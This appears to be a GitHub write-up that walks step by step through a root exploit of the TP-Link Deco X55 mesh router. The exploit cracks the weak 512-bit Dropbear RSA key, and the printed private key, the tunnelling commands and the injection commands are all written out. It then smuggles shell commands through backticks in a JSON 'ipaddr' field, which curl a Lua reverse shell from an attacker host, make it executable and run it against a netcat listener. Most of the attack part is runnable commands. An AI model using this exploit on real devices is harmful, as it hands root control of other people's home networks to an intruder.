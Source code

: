 # TP-Link Mesh Network Attack
## Intro
In this write-up, we use TP-Link Deco X55, firmware version 1.2.2 Build 20230301 Rel. 53300 as an illustration example. 

Deco X55 uses Dropbear SSH to secure inter-AP control plane data. The gateway node runs Dropbear on TCP port 20001 for this purpose. 

However, vulnerable versions of such Dropbear SSH connections use 512-bit RSA keys, which is a weakness. 

## Attack Step 1: Fetch the public key from the gateway and crack to learn the private key

To jailbreak your own Deco X55, you first use [fetch_dropbear_pub.py](./fetch_dropbear_pub.py): (`pip install paramiko` is needed)

![](./fetch_512_rsa_pub.png)

`ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAQQDCpUvga/nk2lu+KxLsaEqrRXBZzflAJ2YYNwvSNzC8Ro+yxTJxpZ+V8qBYzZ54Kntc+Ojx0nZdR530CIdRhshd`

Save this result as `my_tplink_pub.pub`.

Then use GGNFS/MSIEVE to crack and obtain the private key. (This step is left as an exercise. )

You will finally get something like this file `my_tplink_pri.pem`: 

```
-----BEGIN RSA PRIVATE KEY-----
MIIBOgIBAAJBAMKlS+Br+eTaW74rEuxoSqtFcFnN+UAnZhg3C9I3MLxGj7LFMnGl
n5XyoFjNnngqe1z46PHSdl1HnfQIh1GGyF0CAwEAAQJASS8fPU070wkqz3Cgl9SK
pqTgHlPscGuf3mDsB+kKYO869F1yQ2m9WvIEBTKXoPhO7q3XSj3B9tO/6j4iGm5+
nQIhAOTfjOc3Bosm1iouOATZ0el0nK8iuNL0urZTIIFFF79rAiEA2bc3hL64S/pX
3gkFW769eIRAnJaqY4Tqdk2oQvcD8VcCIQCHlKJcqe0Xa5c8/4ox3XMLMAhNe20v
ksg0j8PWsD5kJwIgMfhNc9hacIXbGQk1A6O51Sl1svsZzJG7Rr/4OLZ9Xy0CIB/+
YrHsml/teW8NOGTRHbicu+F7H+X97BD1No1yQiaV
-----END RSA PRIVATE KEY-----
```

## Attack Step 2: Verify the private key matches the public key

Install putty on Ubuntu:
`sudo apt-get install -y putty`

Then you will have access to the `puttygen` tool. 

Show and verify their signatures match, just to make sure:

![](./verify_pub_pri_match.png)

## Attack Step 3: Convert the private key to PuTTY .ppk format

Input: 

`puttygen my_tplink_pri.pem -O private -o my_tplink_pri.ppk`

## Attack Step 4: Authenticate to the Dropbear server on the gateway

Use plink with your ppk key to connect: 

`plink -v -L 20002:127.0.0.1:20002 root@192.168.68.1 -N -P 20001 -i my_tplink_pri.ppk`

![](./plink.png)

Important: You need to hit "Return" key on your keyboard to begin the session and enable "Local port 20002 forwarding to 127.0.0.1:20002".

## Attack Step 5: Prepare a reverse shell script

I used [Reverse Shell Generator](https://www.revshells.com/) to generate a lua reverse shell for Deco X55. 
Download my reverse shell [here](./luashell_tplink.sh), and you might want to change IP address and port number within this script to your own local machine's.

## Attack Step 6: Prepare the environment to execute the tmpcli binary on the attacker's machine

The attacker must use an aarch64 machine to launch this attack. 

Download this vulnerable firmware [here](https://static.tp-link.com/upload/firmware/2023/202303/20230331/Deco_X55_V1.0_1.2.2_Build_230301.zip). 

Sorry, clicking the link does not work. Please input the firmware address manually in a fresh browser tab to download it. 

Unpack this firmware (temporarily left as an exercise). Change your directory to the file system root, and use the export command. After that, try running the `/usr/bin/tmpcli` binary.   

`export LD_LIBRARY_PATH=$PWD/usr/lib:$PWD/lib`

![](./run_tmpcli.png)

## Attack Step 7: Start exploiting the vulnerablity in `tmpsvr`

Execute the command: 

```
echo '{"params":{"ipaddr":"192.168.71.250`curl -o /tmp/luashell.sh http://192.168.68.51:4443/luashell_tplink.sh`", "port":"6666"}}' | ./tmpcli -o 0xc505 -u 127.0.0.1 -p 20002
```

This command tells the gateway to download the `luashell_tplink.sh` from the attacker's server (http://192.168.68.51:4443), and writes this script to `/tmp/luashell.sh`. 

Use this command to chmod the script:

```
echo '{"params":{"ipaddr":"192.168.71.250`chmod u+x /tmp/luashell.sh`", "port":"6666"}}' | ./tmpcli -o 0xc505 -u 127.0.0.1 -p 20002
```

On the attacker's machine, run something like `nc -l 9002`.

Finally, execute the script on the mesh gateway:
```
echo '{"params":{"ipaddr":"192.168.71.250`/tmp/luashell.sh`", "port":"6666"}}' | ./tmpcli -o 0xc505 -u 127.0.0.1 -p 20002
```

Hit `uname -a` and `id` in the attacker's terminal. You will see something like:

![](./root_success.png)


